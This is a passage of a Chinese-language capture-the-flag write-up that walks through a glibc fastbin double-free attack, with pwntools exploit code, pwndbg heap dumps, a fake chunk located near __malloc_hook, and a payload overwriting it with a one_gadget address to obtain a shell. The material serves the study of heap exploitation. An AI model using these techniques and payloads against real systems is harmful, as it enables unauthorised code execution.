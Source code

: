 ```python
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
    p.recvuntil('Delete this sentence (y/n)?\n')
    p.sendline('n')
```

效果如下

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此時，fastbin 的鏈表爲 b->a->b->a->…，則我們可以在申請第一個相同大小的 chunk 時，設置 b 的 fd 爲 malloc_hook 附近處的 chunk `0x7fd798586aed`（這裏是舉一個例子，代碼中需使用相對地址）。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```

那麼當再次分配 b 的時候，由於此時 b 的 fd 已經被我們修改爲了malloc_hook附近的地址，所以這時候我們再次分配一個 chunk，就會指向 `0x7fd798586aed`。 此後便只需要將 malloc_hook 修改爲 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
```